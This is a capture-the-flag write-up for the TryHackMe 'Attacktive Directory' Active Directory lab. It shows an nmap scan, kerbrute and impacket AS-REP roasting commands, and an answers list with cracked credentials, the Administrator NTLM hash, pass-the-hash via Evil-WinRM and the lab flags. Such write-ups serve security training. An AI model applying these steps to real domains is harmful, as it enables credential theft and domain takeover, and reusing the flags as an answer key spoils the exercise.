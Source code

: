 ```yaml
---
description: Active Directory
---
```


# ATTACKTIVE DIRECTORY

![](../.gitbook/assets/bc3749c26ec24501a38957e7869a9de1.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-27 19:32:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-27T19:33:55+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-16T22:48:24
| Not valid after:  2021-03-18T22:48:24
| MD5:   dabe 7d5f 87d1 5ec6 a30a e736 1e37 0efc
|_SHA-1: 3747 b05a 96c8 92bf f443 0d51 bc70 a268 88b6 500c
|_ssl-date: 2020-12-27T19:34:03+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/27%OT=53%CT=1%CU=30626%PV=Y%DS=2%DC=T%G=Y%TM=5FE8E1
OS:AC%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%TS=U)OPS(O1=M505NW8NNS%O2=M50
OS:5NW8NNS%O3=M505NW8%O4=M505NW8NNS%O5=M505NW8NNS%O6=M505NNS)WIN(W1=FFFF%W2
OS:=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M505NW8
OS:NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(
OS:R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-27T19:33:55
|_  start_date: N/A

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   44.91 ms 10.9.0.1
2   45.02 ms 10.10.109.179
```

## PORT 88 KERBEROS ENUMERATION

### BRUTEFORCE WITH KERBRUTE

```text
kerbrute -users users.txt -domain spookysec.local -dc-ip 10.10.109.179
```

![](../.gitbook/assets/619d613276d84b148ea0cfc255648964.png)

### ASREPROAST

```text
impacket-GetNPUsers spookysec.local/ -usersfile roasting.txt -dc-ip 10.10.109.179
```

![](../.gitbook/assets/172217409aaa48be9f6d9c5ed6637855.png)

### DECRIPTING

![](../.gitbook/assets/6e4a663649a44f73b71d009e1a5cca2e.png)

![](../.gitbook/assets/90bef727c91e4a8aba6430684e1bb318.png)

## SHARES ENUMERATION

![](../.gitbook/assets/734a30d7dc724748ab0a707e0d33e8ac.png)

![](../.gitbook/assets/a0fa1d57a27d456c9046eb74387afa85.png)

## HASHDUMP

![](../.gitbook/assets/8bc2bf7408374ac78db589d0d78947e3.png)

## GETTIN SHELL

![](../.gitbook/assets/e04dede3157246b685209be25863266d.png)

## ANSWERS

* What tool will allow us to enumerate port 139/445?

  ```text
  enum4linux
  ```

* What is the NetBIOS-Domain Name of the machine?

  ```text
  THM-AD
  ```

* What invalid TLD do people commonly use for their Active Directory Domain?

  ```text
  .local
  ```

* What command within Kerbrute will allow us to enumerate valid usernames?

  ```text
  userenum
  ```

* What notable account is discovered? \(These should jump out at you\)

  ```text
  svc-admin
  ```

* What is the other notable account is discovered? \(These should jump out at you\)

  ```text
  backup
  ```

* We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

  ```text
  svc-admin
  ```

* Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? \(Specify the full name\)

  ```text
  Kerberos 5 AS-REP etype 23
  ```

* What mode is the hash?

  ```text
  18200
  ```

* Now crack the hash with the modified password list provided, what is the user accounts password?

  ```text
  management2005
  ```

* Using utility can we map remote SMB shares?

  ```text
  smbclient
  ```

```text
- Which option will list shares?
-L
```

* How many remote shares is the server listing?

  ```text
  6
  ```

* There is one particular share that we have access to that contains a text file. Which share is it?

  ```text
  backup
  ```

* What is the content of the file?

  ```text
  YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
  ```

* Decoding the contents of the file, what is the full contents?

  ```text
  backup@spookysec.local:backup2517860
  ```

* What method allowed us to dump NTDS.DIT?

  ```text
  DRSUAPI
  ```

* What is the Administrators NTLM hash?

  ```text
  0e0363213e37b94221497260b0bcb4fc
  ```

* What method of attack could allow us to authenticate as the user without the password?

  ```text
  pass the hash
  ```

* Using a tool called Evil-WinRM what option will allow us to use a hash?

  ```text
  -H
  ```

* svc-admin

  ```text
  TryHackMe{K3rb3r0s_Pr3_4uth}
  ```

* backup

  ```text
  TryHackMe{B4ckM3UpSc0tty!}
  ```

* Administrator

  ```text
  TryHackMe{4ctiveD1rectoryM4st3r}
  ```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

